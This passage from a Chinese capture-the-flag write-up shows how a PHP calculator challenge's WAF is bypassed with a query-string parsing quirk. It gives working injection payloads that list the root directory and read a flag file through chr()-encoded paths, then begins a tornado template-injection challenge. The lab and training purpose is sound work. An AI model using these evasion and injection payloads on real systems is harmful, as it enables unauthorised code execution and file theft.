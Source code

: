 结果发现执行不了：
 [![img](https://ltfallpics.oss-cn-hangzhou.aliyuncs.com/images/20210817021005.jpeg)](http://code.ltfall.top/wp-content/uploads/2021/08/wp_editor_md_4c198138f519cedc9caf30856e5be72a.jpg)
 应该是waf给杀了
 但我们并不知道waf的逻辑，只能猜测是过滤的get方法传入的num的值。
 此处有**php的字符串解析漏洞**
 我们传入：

```
? num=1
```

waf会理解为一个空格加一个num，即名为 num的变量，但php会先去除空格，因此php可以正确理解get方法传入的参数

```
? num=1;var_dump(scandir(chr(47)))
```

[![img](https://ltfallpics.oss-cn-hangzhou.aliyuncs.com/images/20210818151023.jpeg)](http://code.ltfall.top/wp-content/uploads/2021/08/wp_editor_md_be4544fbba401a23910fd09f1fb7728c.jpg)
 然后使用chr函数即可得到flag:

```
? num=1;var_dump(file_get_contents(chr(47).chr(102).chr(49).chr(97).chr(103).chr(103)))
```

[![img](https://ltfallpics.oss-cn-hangzhou.aliyuncs.com/images/20210817021035.jpeg)](http://code.ltfall.top/wp-content/uploads/2021/08/wp_editor_md_515d08bad33c512f00b80c7baef3840c.jpg)

## [护网杯 2018]easy_tornado

> 考点：
>
> easy_tornado模板注入

打开环境，提示了三个文件：

![image-20210818150904282](https://ltfallpics.oss-cn-hangzhou.aliyuncs.com/images/20210818150939.png)

无内鬼，看看flag:

![image-20210818151227030](https://ltfallpics.oss-cn-hangzhou.aliyuncs.com/images/20210818151833.png)

看看，好像上当了：

![image-20210818152201134](https://ltfallpics.oss-cn-hangzhou.aliyuncs.com/images/20210818152203.png)

看看前面的welcome:

![image-20210818152625608](https://ltfallpics.oss-cn-hangzhou.aliyuncs.com/images/20210818152628.png)

听别的师傅说看到render就想到模板注入，我，我···

然后康康hint:

![image-20210818153127626](https://ltfallpics.oss-cn-hangzhou.aliyuncs.com/images/20210818153129.png)

